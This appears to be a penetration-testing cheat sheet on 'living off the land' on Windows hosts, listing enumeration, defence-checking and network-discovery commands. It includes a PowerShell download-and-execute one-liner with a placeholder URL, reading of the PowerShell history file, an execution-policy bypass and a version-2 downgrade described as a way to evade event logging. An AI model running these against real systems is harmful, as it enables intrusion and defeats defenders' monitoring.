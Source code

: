 # Living Off the Land
#### Basic Enumeration Commands
```powershell
hostname
[System.Environment]::OSVersion.Version
wmic qfe get Caption,Description,HotFixID,InstalledOn
ipconfig /all
set
echo %USERDOMAIN%
echo %logonserver%
systeminfo
```
#### PowerShell
```powershell
Get-Module
Get-ExecutionPolicy -List
Set-ExecutionPolicy Bypass -Scope Process
Get-ChildItem Env: | ft Key,Value
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

Many defenders are unaware that several versions of PowerShell often exist on a host. If not uninstalled, they can still be used. Powershell `event logging` was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer. This is a great way for us to remain under the defenders' radar while still utilizing resources built into the hosts to our advantage. Below is an example of downgrading Powershell.

```powershell
powershell.exe -version 2
Get-host
```
#### Checking Defenses
```powershell
netsh advfirewall show allprofiles
sc query windefend
Get-MpComputerStatus
```
#### Am I Alone?
```powershell
qwinsta
query session
```
#### Network enumeration
`arp -a` and `route print` will show us what hosts the box we are on is aware of and what networks are known to the host. Any networks that appear in the routing table are potential avenues for lateral movement because they are accessed enough that a route was added, or it has administratively been set there so that the host knows how to access resources on the domain. These two commands can be especially helpful in the discovery phase of a black box assessment where we have to limit our scanning
```powershell
arp -a
ipconfig /all
route print
netsh advfirewall show allprofiles
```
#### Windows Management Instrumentation (WMI)
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
wmic process list /format:list
```